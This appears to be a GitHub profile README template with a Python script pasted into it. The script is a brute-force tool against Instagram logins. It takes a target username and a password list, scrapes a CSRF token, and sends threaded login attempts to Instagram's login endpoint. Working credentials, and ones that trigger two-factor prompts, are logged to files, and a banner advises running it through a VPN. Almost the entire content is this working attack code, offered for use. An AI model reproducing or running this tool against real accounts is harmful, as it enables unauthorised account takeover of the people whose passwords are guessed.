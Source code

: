 - 👋 Hi, I’m @krishna1100del
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...
# author : akash black hat hacke
# darkweb pleyer 127.0.0.1
from __future__ import absolute_import
from __future__ import print_function
import requests, sys, threading, time, os, random
from random import randint
from six.moves import input

CheckVersion = str(sys.version)
import re
from datetime import datetime

print('''    
\033[32m██╗███╗   ██╗███████╗████████╗ █████╗                     
██║████╗  ██║██╔════╝╚══██╔══╝██╔══██╗                    
██║██╔██╗ ██║███████╗   ██║   ███████║                    
██║██║╚██╗██║╚════██║   ██║   ██╔══██║                    
██║██║ ╚████║███████║   ██║   ██║  ██║                    
╚═╝╚═╝  ╚═══╝╚══════╝   ╚═╝   ╚═╝  ╚═╝
┌┐ ┬─┐┬ ┬┌┬┐  ┌─┐┌─┐┬─┐┌─┐┌─┐   V1.0
├┴┐├┬┘│ │ │   ├┤ │ │├┬┘│  ├┤   
└─┘┴└─└─┘ ┴   └  └─┘┴└─└─┘└─┘     
\033[38m***\033[31mInstgrame Brute Force Attack \033[38m***
\033[33m*\033[32mDeveloper:AKASH BLACK HAT   \033[33m     *
\033[35m*\033[32mInstagram:akashblackhat    \033[35m      *
\033[31m*\033[32mYouTube  :Technical akash skills \033[31m*
\033[37m*\033[32mPassList :Attack\033[37m                 *
\033[35m**********\033[31m*********\033[33m*********\033[32m*******''')
print('''\033[31mNotice :-> Management depends on vpn software
Please use it before running the tool.\033[32m.''')
class InstaBrute(object):
    def __init__(self):

        try:
            user = input('username : ')
            Combo = input('passList : ')
            print('\n----------------------------')

        except:
            print(' The tool was arrested exit ')
            sys.exit()

        with open(Combo, 'r') as x:
            Combolist = x.read().splitlines()
        thread = []
        self.Coutprox = 0
        for combo in Combolist:
            password = combo.split(':')[0]
            t = threading.Thread(target=self.New_Br, args=(user, password))
            t.start()
            thread.append(t)
            time.sleep(0.9)
        for j in thread:
            j.join()

    def cls(self):
        linux = 'clear'
        windows = 'cls'
        os.system([linux, windows][os.name == 'nt'])

    def New_Br(self, user, pwd):
        link = 'https://www.instagram.com/accounts/login/'
        login_url = 'https://www.instagram.com/accounts/login/ajax/'

        time = int(datetime.now().timestamp())

        payload = {
            'username': user,
            'enc_password': f'#PWD_INSTAGRAM_BROWSER:0:{time}:{pwd}',
            'queryParams': {},
            'optIntoOneTap': 'false'
        }

        with requests.Session() as s:
            r = s.get(link)
            csrf = re.findall(r"csrf_token\":\"(.*?)\"", r.text)[0]
            r = s.post(login_url, data=payload, headers={
                "User-Agent": "Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.120 Safari/537.36",
                "X-Requested-With": "XMLHttpRequest",
                "Referer": "https://www.instagram.com/accounts/login/",
                "x-csrftoken": csrf
            })
            print(f'{user}:{pwd}\n----------------------------')

            if 'authenticated": true' in r.text:
                print(('' + user + ':' + pwd + ' --> Good hack '))
                with open('good.txt', 'a') as x:
                    x.write(user + ':' + pwd + '\n')
            elif 'two_factor_required' in r.text:
                print(('' + user + ':' + pwd + ' -->  Good It has to be checked '))
                with open('results_NeedVerfiy.txt', 'a') as x:
                    x.write(user + ':' + pwd + '\n')


InstaBrute()
<!---
krishna1100del/krishna1100del is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
